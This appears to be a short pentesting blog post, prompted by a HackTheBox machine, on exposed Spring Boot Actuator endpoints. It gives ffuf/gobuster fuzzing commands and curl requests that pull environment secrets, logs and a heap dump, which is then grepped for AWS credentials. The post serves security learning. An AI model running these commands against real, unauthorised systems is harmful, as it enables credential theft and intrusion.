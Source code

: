 ```yaml
---
layout: post
title:  "SpringBoot Pentesting"
date:   2023-09-07 09:29:20 +0700
tags: [htb,pentesting]
categories: jekyll update
usemathjax: true
---
```


> # SpringBoot Pentesting

I was solving CozyHosting from HTB which had the initial foothold related to SpringBoot, so I’m gonna dive deeper like i always do

Vulnerable Spring application, if you want to test it out while reading the blog

[GitHub - malexmave/blog-spring-actuator-example: An example project with a vulnerable Spring Actuator configuration, as a companion to a blog post](https://github.com/malexmave/blog-spring-actuator-example)

This github  repository is associated with the blog linked down below

[Spring Actuator Security, Part 1: Stealing Secrets Using Spring Actuators](https://blog.maass.xyz/spring-actuator-security-part-1-stealing-secrets-using-spring-actuators)

## What is Spring Boot?

Spring Boot is a powerful and versatile framework that simplifies the development of web applications. Its simplicity, versatility, and active community make it a popular choice among developers.

### Spring **≠ Spring Boot**

| Spring | Spring Boot |
| --- | --- |
| Spring is a popular Java-based framework used for building web applications. | Spring Boot is a framework built on top of Spring. |
| Spring provides a wide range of features and tools for building web applications | Spring Boot simplifies the development process by eliminating the need for developers to write boilerplate code. |

## The story of Actuator.

Spring Boot includes a number of additional features called [actuators](https://docs.spring.io/spring-boot/docs/current/reference/html/production-ready-features.html) to help monitor and control an application when it is pushed to production. Actuators allow controling and monitoring an application using either HTTP or JMX endpoints.

They can be quite helpful in debugging or monitoring a Spring application, but if you expose them too widely, things can get dangerous very quickly.

Spring provides a **[list of all actuators](https://docs.spring.io/spring-boot/docs/2.5.6/reference/html/actuator.html#actuator.endpoints)** that are present by default and can be enabled.

The built-in endpoints will only be auto-configured when they are available. Most applications choose exposure via HTTP, where the ID of the endpoint along with a prefix of /actuator is mapped to a URL. For example, by default, the health endpoint is mapped to /actuator/health




> ### Fuzzing Actuators

```jsx
ffuf -w ~/Desktop/tools/SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt  -u http://10.10.11.224:55555/FUZZ

gobuster dir -w ~/wordlist/KaliLists/dirbuster/directory-list-2.3-medium.txt --url http://cozyhosting.htb/

```

Scanning pages simultaneously 

```jsx
$ cat domains.txt
domain.com
sub1.domain.com
sub2.domain.com
[... etc ...]

$ ffuf -w endpoints.txt:PATH -w domains.txt:DOMAIN -u http://DOMAIN/PATH
```

More about the way this could be automated and easier to understand is linked in the blog below. 

[Spring Actuator Security, Part 3: Finding Exposed Actuators using Dynamic Testing with ffuf](https://blog.maass.xyz/spring-actuator-security-part-3-finding-exposed-actuators-using-dynamic-testing-with-ffuf?source=more_series_bottom_blogs)

## Finding Actuators ( Manually )

[Spring Actuator Security, Part 2: Finding Actuators using Static Code Analysis with semgrep](https://blog.maass.xyz/spring-actuator-security-part-2-finding-actuators-using-static-code-analysis-with-semgrep?source=more_series_bottom_blogs)

> ## Exploiting Actuators

### Looking for Secrets

```jsx

curl localhost:8081/actuator/env | jq .

// ... lots of stuff
"DB_CONN": {
    "value": "psql://server/db",
    "origin": "System Environment Property \"DB_CONN\""
},
// ... lots of stuff
```

### Reading logs

```jsx
curl localhost:8081/actuator/logfile

2022-08-24 13:45:14.813  INFO 68465 --- [http-nio-8081-exec-2] com.example.demo.DemoApplication         : Entering hello world function...
2022-08-24 13:45:14.814  INFO 68465 --- [http-nio-8081-exec-2] com.example.demo.DemoApplication         : Dumping AWS credentials for debugging purposes: Key: AKIATESTTEST Token: TESTingSecretAccessTest
```

### Dumping the dump ( Heapdump)

```jsx
curl localhost:8081/actuator/heapdump -o heap.bin
```

This endpoint does exactly what it sounds like - it takes a copy of the Java heap (i.e., the memory of the application) and provides it to me as a large blob of binary data.

Now you can just use ``` strings heap.bin | grep -C 20 AWS ```

This does not even touch the surface of SpringBoot exploitation, I have linked better and more indepth blog about this by pros.

More about Exploiting Actuators

[Spring Actuator Security, Part 1: Stealing Secrets Using Spring Actuators](https://blog.maass.xyz/spring-actuator-security-part-1-stealing-secrets-using-spring-actuators)

[Exploiting Spring Boot Actuators - Veracode](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)

### References

[SPRING BOOT PENTESTING PART 1- FUNDAMENTALS](https://blog.certcube.com/spring-boot-pentesting-fundamentals-part-1/)

[SPRING BOOT PENTESTING PART 2- ACTUATORS](https://blog.certcube.com/spring-boot-pentesting-part-2-actuators/)

[Spring Boot Actuators](https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators)

[Spring Actuators](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)